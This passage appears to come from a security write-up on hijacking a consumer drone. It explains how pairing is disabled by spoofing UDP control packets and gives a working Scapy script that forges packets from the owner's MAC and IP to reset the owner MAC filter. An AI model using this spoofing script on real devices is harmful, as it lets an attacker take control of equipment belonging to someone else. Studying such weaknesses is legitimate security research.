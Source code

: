 ![Turn on pairing](img/wireshark2.jpg?raw=true "Wireshark capture - Turn on pairing")

So the same UDP based protocol is used to turn on pairing as we just spoofed above! To turn off pairing all we need to do is to set `network:owner_mac` to `00:00:00:00:00:00`. Actually the things are not exactly the same as above, because the CONFIG packet will be only accepted if the previous packet is a CONFIG_IDS with the proper session, user and application id. So first we need to sniff these id's, and then spoof the two control packets (they can be in one UDP packet, as it can be seen in the Wireshark capture. Simply separate them with \r):
```python
from scapy.all import *
from time import sleep

srcIP = '192.168.1.2'
dstIP = '192.168.1.1'
srcPort = 5556
dstPort = 5556
srcMAC = '58:44:98:13:80:6c'
dstMAC = '90:03:b7:e8:55:72'

macfilteroff = "AT*CONFIG_IDS=1,\"6d284a13\",\"6b8ae8b1\",\"96e3654b\"\rAT*CONFIG=2,\"network:owner_mac\",\"00:00:00:00:00:00\"\r" 

payload = macfilteroff
spoofed_packet = Ether(src=srcMAC, dst=dstMAC) / IP(src=srcIP, dst=dstIP) / UDP(sport=srcPort, dport=dstPort) / payload

for i in range(1, 10):
	sendp(spoofed_packet, iface="wlan0")
	sleep(0.3);
```
